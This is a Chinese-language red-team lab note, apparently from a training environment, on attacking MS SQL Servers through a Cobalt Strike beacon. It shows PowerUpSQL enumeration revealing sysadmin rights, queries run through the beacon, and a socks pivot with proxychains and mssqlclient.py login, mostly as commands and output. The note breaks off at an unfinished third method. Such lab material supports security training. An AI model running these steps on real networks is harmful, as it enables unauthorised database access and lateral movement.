 # MS SQL Servers

引入powerupsql，枚举mssql实例

```
beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
[*] Tasked beacon to import: C:\Tools\PowerUpSQL\PowerUpSQL.ps1
[+] host called home, sent: 202920 bytes
beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 20 bytes
[*] You are DEV\bfarmer
beacon> powershell Get-SQLInstanceDomain
[*] Tasked beacon to run: Get-SQLInstanceDomain
[+] host called home, sent: 341 bytes
[+] received output:
#< CLIXML


ComputerName     : srv-1.dev.cyberbotic.io
Instance         : srv-1.dev.cyberbotic.io,1433
DomainAccountSid : 15000005210002361191261941702819312113313089172110400
DomainAccount    : svc_mssql
DomainAccountCn  : MS SQL Service
Service          : MSSQLSvc
Spn              : MSSQLSvc/srv-1.dev.cyberbotic.io:1433
LastLogon        : 5/3/2022 11:12 AM
Description      : 

```

有一个实例：```srv-1.dev.cyberbotic.io,1433```

根据实例查看当前session是否有进入权限

```
beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl
[*] Tasked beacon to run: Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl
[+] host called home, sent: 461 bytes
[+] received output:
#< CLIXML


ComputerName : srv-1.dev.cyberbotic.io
Instance     : srv-1.dev.cyberbotic.io,1433
Status       : Accessible

```

显示Accessible，表明有权限


查看这个实例的更多信息
```
beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
[*] Tasked beacon to run: Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
[+] host called home, sent: 437 bytes
[+] received output:
#< CLIXML


ComputerName           : srv-1.dev.cyberbotic.io
Instance               : SRV-1
DomainName             : DEV
ServiceProcessID       : 2744
ServiceName            : MSSQLSERVER
ServiceAccount         : DEV\svc_mssql
AuthenticationMode     : Windows Authentication
ForcedEncryption       : 0
Clustered              : No
SQLServerVersionNumber : 13.0.5026.0
SQLServerMajorVersion  : 2016
SQLServerEdition       : Standard Edition (64-bit)
SQLServerServicePack   : SP2
OSArchitecture         : X64
OsMachineType          : ServerNT
OSVersionName          : Windows Server 2016 Datacenter
OsVersionNumber        : SQL
Currentlogin           : DEV\bfarmer
IsSysadmin             : Yes
ActiveSessions         : 1

```

注意这两个字段,表明bfarmer对mssql有超级管理员权限
```
Currentlogin           : DEV\bfarmer
IsSysadmin             : Yes
```

## 利用

**方法1**
对这个实例进行sql语句查询

```
beacon> powershell Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"
[*] Tasked beacon to run: Get-SQLQuery -Instance "srv-1.dev.cyberbotic.io,1433" -Query "select @@servername"
[+] host called home, sent: 501 bytes
[+] received output:
#< CLIXML

Column1
-------
SRV-1  
```


**方法二**

使用

先在wkstn-1上做一个pivot
```
socks 1080
```

再在kali上用mssqlclient.py登录mssql
```
proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DEV/bfarmer@10.10.17.25
```


![img](https://github.com/maxzxc0110/hack-study/blob/main/img/1660780102416.png)

**方法3**

这里需要用Proxifier做一个代理才能访问到10.10.17.25